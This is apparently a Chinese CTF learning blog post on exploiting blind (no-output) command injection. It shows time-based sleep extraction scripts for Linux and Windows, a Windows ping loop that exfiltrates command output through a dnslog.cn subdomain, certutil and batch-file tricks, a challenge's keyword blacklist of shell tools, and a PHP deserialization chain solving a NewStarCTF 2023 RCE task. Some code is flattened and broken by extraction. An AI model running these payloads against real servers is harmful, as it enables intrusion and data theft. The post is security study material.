这里的情况就与我做的CTF题目一样。
5.1 Linux
方法和延时注入差不多，截取命令回显结果循环进行对比，对比到了就用sleep延时
首先要了解linux if语句
1 2 3 4 5 6 7 if [ command ];then
这次只需要用到一个判断所以不用这么复杂
1 2 if [ 1 = 1 ];then sleep 2;fi #这里的1=1条件成立就会执行下面的sleep 2语句
Linux下反引号是命令替换，一般来说是将执行获得的结果再执行一次，这里可以理解为将命令的结果保存下来后与等号后面的字符对比
cut 命令是切割字符串，whoami|cut -c 1就是得到命令结果的第一个字符，以此类推
在一些回显中可能会出现很多符号，还有中文什么的，为了避免回显结果不准确的情况可以通过base32编码后再执行cut操作
1 if [ `whoami|base32|cut -c 1` = 'r' ];then sleep 2;fi
这里使用base32的原因是base32只有大写字母和2-7和=，减少了爆破字符数量，提高了回显结果的精准度
下面用python写个脚本
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 import requestsimport string"234567=" "pwd" "http://10.130.4.204:8081/index.php?cmd=" def get_result (cmd ,url ):"" for i in range (1 , 65535 ):for s in str_zf:"if [ `{}|base32|cut -c {}` = '{}' ];then sleep 5;fi" .format (cmd, i, s)if time > 3 :print (result)break if __name__ == '__main__' :
string.ascii_uppercase 是 Python 标准库中 string 模块中的一个常量，它包含了英文字母的大写版本，即 A 到 Z 的 26 个字符。具体来说，string.ascii_uppercase 包含以下字符：
1 ABCDEFGHIJKLMNOPQRSTUVWXYZ
这个常量通常用于字符串操作，特别是在需要引用英文大写字母集合的情况下。例如，您可以使用 string.ascii_uppercase 来生成随机的大写字母，检查字符串中是否包含大写字母等等。这个常量提供了一个方便的方式来引用大写字母集合，而不必手动键入所有大写字母。
以上是参考GPT回答而去了解代码含义
下面是实例图片

5.2 Windows
在Linux中可以通过ping带出命令，但是Windows不会把命令结果拼接到dnslog上，可以用for循环得到结果再进行拼接
1 for /F %i in ('echo a' ) do ping -n 1 %i.qzdxj3.dnslog.cn
这里就是多提一句，重点还是在不出网的情况下
Windows中的问题就是命令结果保存在哪里，并不可以像Linux一样直接截取
这次假设是web目录不可写，那就需要思考下写到别的目录该怎么读到
将命令回显的结果写到一个可写的目录下
使用certutil将命令结果base64编码，原因同上可以避免特殊字符，提高结果的准确度
用findstr /V参数去除多余的字符，将去除掉多余字符的base64编码再次写入一个文件
1 2 3 4 5 6 certutil -encode d:\\a d:\\b #编码命令
去除的是首行尾行的多余字符，\V参数是匹配到相同的字符然后去除
用for循环去除换行符
写入bat对比字符串
1 2 @echo off for /f "delims=" %%i in ('type "d:\c"' ) do (set /p =%%i<nul))>"d:\d"
以下是GPT对上述代码的解释：
1 2 3 4 5 6 7 8 9 10 11 这是一个 Windows 批处理脚本，主要用于将文件 "d:\c" 的内容逐行写入文件 "d:\d"，并保留文件 "d:\d" 中的空行。以下是对脚本的逐行分析：
先写入上面的bat去除换行符
1 2 3 4 5 6 7 8 @echo off 1 "d:\d" 1 echo a&&goto end0 ping 127.0 .0.1
然后再写入bat匹配字符串
1 2 a.bat 正确字符----延迟
同样用python写个脚本
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 import requestsimport string"echo flag >d:\\a" "certutil -encode d:\\a d:\\b" "findstr /V \"^---\" d:\\b > d:\\c" "echo @echo off>>d:\\b.bat" "echo (for /f \"delims=\" %%i in ('type \"d:\\c\"') do (set /p =%%i^<nul))^>\"d:\\d\">>d:\\b.bat" "d:\\b.bat" "echo @echo off>>d:\\a.bat" "echo findstr /b %1 \"d:\\d\">>d:\\a.bat" "echo IF ERRORLEVEL 1 echo a^&^&goto end >>d:\\a.bat" "echo IF ERRORLEVEL 0 ping 127.0.0.1>>d:\\a.bat" "echo :end>>d:\\a.bat" "http://127.0.0.1/system.php" for i in cmd:"pass" : iprint ("[+]init success" )"+/=" "" for i in range (1 ,65535 ):for s in bp:"pass" : "d:\\a.bat " + cmd_base64 + sif time > 3 :print (cmd_base64)break
下面是实例图片

5.3 枚举flag
服务器未联网，无写入权限。无法getshell等一系列操作，只能通过枚举/二分查找暴力查询flag。
构造脚本遍历：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 import requestsimport recompile ('flag\\{[0-9a-z]{8}-[0-9a-z]{4}-[0-9a-z]{4}-[0-9a-z]{4}-[0-9a-z]{12}\\}' )'-}0123456789abcdefghijklmnopqrstuvwxyz' def get_flag (command ):try :'http://web.train.lilac.com:10008/' , params={'command' : command}, timeout=1.5 )except :return True return False if __name__ == '__main__' :'flag{' while flag_format.match (flag) == None :0 for i in all_letter:'| cat /flag | grep %s && sleep 1.8' % (flag + i)print (payload)if get_flag(payload):1 print (flag)break if staus == 0 :0 :-1 ]
0x06 CTF题目实战
NewStarCTF 2023 week3 RCE
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 <?php highlight_file (__FILE__ );class minipop public $code ;public $qwejaskdjnlka ;public function __toString ( {if (!preg_match ('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|tee|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i' , $this ->code)){exec ($this ->code);return "alright" ;public function __destruct ( {echo $this ->qwejaskdjnlka;if (isset ($_POST ['payload' ])){unserialize ($_POST ['payload' ]);
先是简单的反序列化，随后是一个无回显RCE的绕过，下面简单写一个pop链
1 2 3 4 5 6 7 8 9 10 11 12 13 <?php highlight_file (__FILE__ );class minipop public $code ;public $qwejaskdjnlka ;$poc = new minipop ();$poc ->qwejaskdjnlka = new minipop ();$poc ->qwejaskdjnlka->code = 'RCE' ;echo serialize ($poc );?>
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 import timeimport requests"http://bcdad1a5-6014-4594-a8b5-c4c03f581147.node4.buuoj.cn:81/" "" for i in range (1 ,15 ):for j in range (1 ,50 ):for k in range (32 ,127 ):chr (k)f"if [ `cat /flag_is_h3eeere | awk NR=={i} | cut -c {j} ` == '{k} ' ];then sleep 2;fi" len (payload)"payload" : 'O:7:"minipop":2:{s:4:"code";N;s:13:"qwejaskdjnlka";O:7:"minipop":2:{s:4:"code";s:{0}:"{1}";s:13:"qwejaskdjnlka";N;}}' .format (length,payload)if t2-t1 >1.5 :print (result)" "
GPT对上述代码的解释
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 if [ ... ]; then sleep 2; fi：这是一个条件语句，其中包含一个条件测试。如果条件测试为真（true），则执行 sleep 2，即让脚本休眠2秒。这是一种时间延迟技巧，通常用于时间盲注攻击，攻击者根据服务端的响应时间来推断条件是否成立。
这里我发现"payload": 'O:7:"minipop":2:{s:4:"code";N;s:13:"qwejaskdjnlka";O:7:"minipop":2:{s:4:"code";s:{0}:"{1}";s:13:"qwejaskdjnlka";N;}}'.format(length,payload)
此处代码之间用了两对花括号
1 O:7:"minipop":2:{s:4:"code";N;s:13:"qwejaskdjnlka";O:7:"minipop":2:s:4:"code";s:0:"";s:13:"qwejaskdjnlka";N;}}
这里我就疑问为何他用了两对括号，于是我用之前的先运行一下发现如下报错

如上图发现是keyerror错误，意思是字典格式的错误，csdn搜索了一下发现这个解释的很好
这次写的时候遇到了奇怪的KeyError。我一开始是这么写的：
1 2 3 4 5 s = r''' function foo() { printf("{}"); } ''' .format (arg)
但是这样会报错。
后来发现，因为format自己用大括号作为占位符，如果字符串里本身有大括号，还得转义一下。具体怎么转义，就是用两个大括号，所以应该改成这样：
1 2 3 4 5 s = r''' function foo() {{ printf("{}"); }} ''' .format (arg)
这样才能正常输出。
之后再有类似的题我再更新吧，这次感觉只是简单了解了，似乎还是不熟练啊。
0x07 参考文章
无回显条件下的命令执行判断和利用方式研究 --实战类
web-无回显的命令执行的5种反弹信道
[CTF]命令执行无回显利用
CTF入门web篇18命令执行无回显的判断方法及dnslog相关例题
无回显的渗透技巧
RCE篇之无回显rce
Windows/Linux下的无回显命令执行
超全的命令（代码）执行漏洞无回显的姿势总结（附带详细代码和测试分析过程）